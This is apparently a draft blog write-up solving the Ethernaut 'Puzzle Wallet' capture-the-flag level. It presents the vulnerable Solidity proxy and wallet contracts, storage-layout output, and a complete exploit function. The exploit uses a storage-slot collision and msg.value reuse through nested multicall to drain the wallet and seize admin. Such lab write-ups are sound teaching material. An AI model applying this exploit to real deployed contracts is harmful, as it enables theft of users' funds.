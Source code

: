 ###########################
Ethernaut 24: Puzzle Wallet
###########################
:date: 2023-11-12
:slug: ethernaut-24-puzzlewallet
:status: draft
:summary: Solve this puzzle with our simple 8 step program!
:tags: programming
:author: capu
:featured_image:

Objective
=========
Become the contract's ``admin``

Code
====
this level consists of a proxy contract:

.. code-block:: solidity
    :linenos: inline

    contract PuzzleProxy is ERC1967Proxy {
        address public pendingAdmin;
        address public admin;

        constructor(address _admin, address _implementation, bytes memory _initData)
            ERC1967Proxy(_implementation, _initData)
        {
            admin = _admin;
        }

        modifier onlyAdmin() {
            require(msg.sender == admin, "Caller is not the admin");
            _;
        }

        function proposeNewAdmin(address _newAdmin) external {
            pendingAdmin = _newAdmin;
        }

        function approveNewAdmin(address _expectedAdmin) external onlyAdmin {
            require(
                pendingAdmin == _expectedAdmin,
                "Expected new admin by the current admin is not the pending admin"
            );
            admin = pendingAdmin;
        }

        function upgradeTo(address _newImplementation) external onlyAdmin {
            _upgradeTo(_newImplementation);
        }
    }

with the following 'wallet' contract as its implementation:

.. code-block:: solidity
    :linenos: inline

    contract PuzzleWallet {
        address public owner;
        uint256 public maxBalance;
        mapping(address => bool) public whitelisted;
        mapping(address => uint256) public balances;

        function init(uint256 _maxBalance) public {
            require(maxBalance == 0, "Already initialized");
            maxBalance = _maxBalance;
            owner = msg.sender;
        }

        modifier onlyWhitelisted() {
            require(whitelisted[msg.sender], "Not whitelisted");
            _;
        }

        function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
            require(address(this).balance == 0, "Contract balance is not 0");
            maxBalance = _maxBalance;
        }

        function addToWhitelist(address addr) external {
            require(msg.sender == owner, "Not the owner");
            whitelisted[addr] = true;
        }

        function deposit() external payable onlyWhitelisted {
            require(address(this).balance <= maxBalance, "Max balance reached");
            balances[msg.sender] += msg.value;
        }

        function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted {
            require(balances[msg.sender] >= value, "Insufficient balance");
            balances[msg.sender] -= value;
            (bool success,) = to.call{value: value}(data);
            require(success, "Execution failed");
        }

        function multicall(bytes[] calldata data) external payable onlyWhitelisted {
            bool depositCalled = false;
            for (uint256 i = 0; i < data.length; i++) {
                bytes memory _data = data[i];
                bytes4 selector;
                assembly {
                    selector := mload(add(_data, 32))
                }
                if (selector == this.deposit.selector) {
                    require(!depositCalled, "Deposit can only be called once");
                    // Protect against reusing msg.value
                    depositCalled = true;
                }
                (bool success,) = address(this).delegatecall(data[i]);
                require(success, "Error while delegating call");
            }
        }
    }

also, in the deploy process:

- ``maxBalance`` is initialized to 100ether
- the factory deposits 0.001 eth.

Solution
========

To start off, it's a big smell that the ``PuzzleProxy`` contract has state
variables defined. Proxies, contracts meant to delegatecall to their
implementation, have good reason to store whatever data they need in slots that
aren't going to be overwritten by good ol' variables.

This is a common pattern and is standarized in `ERC-1967
<https://eips.ethereum.org/EIPS/eip-1967>`_. The ERC1967Proxy implementation by
OpenZeppelin the ``PuzzleProxy`` inherits already takes care of it, and defines
functions to update the admin, so it is an extra smelly smell.

So next thing I noticed is the proxy and implementation make use of the first
few storage slots for different things:

.. code::

    [I] > forge inspect --pretty  PuzzleProxy  storageLayout
    | Name         | Type    | Slot | Offset | Bytes |
    |--------------|---------|------|--------|-------|
    | pendingAdmin | address | 0    | 0      | 20    |
    | admin        | address | 1    | 0      | 20    |

.. code::

    [I] > forge inspect --pretty  PuzzleWallet  storageLayout
    | Name        | Type                        | Slot | Offset | Bytes |
    |-------------|-----------------------------|------|--------|-------|
    | owner       | address                     | 0    | 0      | 20    |
    | maxBalance  | uint256                     | 1    | 0      | 32    |
    | whitelisted | mapping(address => bool)    | 2    | 0      | 32    |
    | balances    | mapping(address => uint256) | 3    | 0      | 32    |

this means:

1. I can use ``proposeNewAdmin`` to set the owner
2. If I can set the ``maxBalance`` to an arbitrary value, I'll be able to
   effectively override the admin, beating the level.

but how can I set ``maxBalance``?

3. ``init`` won't do, since the factory initializes the contract with a
   ``maxBalance`` of 100 ether.
4. ``setMaxBalance``
    5. Can only be called by whitelisted addresses: no problem, being the owner
       (1) I can whitelist whoever.
    6. Requires the contract balance be zero: is a problem since the factory
       already made a deposit

So how do I get the contract balance to zero?

There's a function where I can get funds out of the contract:

.. code-block:: solidity
    :linenos: inline

    function execute(
        address to,
        uint256 value,
        bytes calldata data
    ) external payable onlyWhitelisted {
        require(balances[msg.sender] >= value, "Insufficient balance");
        balances[msg.sender] -= value;
        (bool success,) = to.call{value: value}(data);
        require(success, "Execution failed");
    }

But I can only get out as much as I have in the ``balances`` mapping. And I can only
increase that by ``deposit``-ing

.. code-block:: solidity
    :linenos: inline
    :hl_lines: 2 11 12

    function deposit() external payable onlyWhitelisted {
        require(address(this).balance <= maxBalance, "Max balance reached");
        balances[msg.sender] += msg.value;
    }

How could I manage to increase my entry in ``balances`` further?

Thankfully there's a comment to help me out:

.. code-block:: solidity
    :linenos: inline
    :hl_lines: 4 12 16

    function multicall(
        bytes[] calldata data
    ) external payable onlyWhitelisted {
        bool depositCalled = false;
        for (uint256 i = 0; i < data.length; i++) {
            bytes memory _data = data[i];
            bytes4 selector;
            assembly {
                selector := mload(add(_data, 32))
            }
            if (selector == this.deposit.selector) {
                require(
                    !depositCalled,
                    "Deposit can only be called once"
                );
                // Protect against reusing msg.value
                depositCalled = true;
            }
            (bool success,) = address(this).delegatecall(data[i]);
            require(success, "Error while delegating call");
        }
    }

'reusing msg.value' (11) is something I could do!

Usually 'reentrancy guards' are implemented as storage variables, since those
persist across calls to the contract. But this one is a stack variable,
preventing me from putting two or more selectors for ``deposit`` back to back in
the ``data`` array.

There's nothing preventing me from crafting a calldata to call multicall on
itself with calldata to call deposit on itself, though .

That's a mouthful. Perhaps a machine language is better to lay this out:


.. code-block:: solidity
    :linenos: inline
    :hl_lines: 

    // cast calldata  "deposit()" 
    // 0xd0e30db0
    // cast calldata  "multicall(bytes[] calldata)" '[0xd0e30db0]'
    bytes memory multicallThenDepositCalldata = hex"ac9650d80000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000";
    bytes[] memory args = new bytes[](2);
    args[0] = multicallThenDepositCalldata;
    args[1] = multicallThenDepositCalldata;
    // 0.001 is the original balance of the contract
    // this reuses the msg.value for two deposits, making the contract
    // balance 0.002 *and* also the attacker's value in the 'balances'
    // mapping to 0.002
    asWallet.multicall{value: 0.001 ether}(args);

with msg.value officially reused, all that's left to do is drain the contract
and set the second storage slot to my address.

Stitiching this all up:

.. code-block:: solidity
    :linenos: inline
    :hl_lines: 

    function solution(address payable target_) internal override{
        PuzzleProxy asProxy = PuzzleProxy(target_);
        PuzzleWallet asWallet = PuzzleWallet(target_);
        // this sets the PuzzleWallet's owner to the attacker
        asProxy.proposeNewAdmin(address(attacker)); // (1)
        asWallet.addToWhitelist(address(attacker)); // (5)
        // cast calldata  "deposit()" 
        // 0xd0e30db0
        // cast calldata  "multicall(bytes[] calldata)" '[0xd0e30db0]'
        bytes memory multicallThenDepositCalldata = hex"ac9650d80000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000";
        bytes[] memory args = new bytes[](2);
        args[0] = multicallThenDepositCalldata;
        args[1] = multicallThenDepositCalldata;
        // 0.001 is the original balance of the contract
        // this reuses the msg.value for two deposits, making the contract
        // balance 0.002 *and* also the attacker's value in the 'balances'
        // mapping to 0.002
        asWallet.multicall{value: 0.001 ether}(args);
        // now I can reduce the contract balance to zero
        asWallet.execute(attacker, 0.002 ether, bytes("")); // (6)
        // and set the maxBalance to override the contract's admin
        asWallet.setMaxBalance(uint256(uint160(attacker))); // (2)
    }
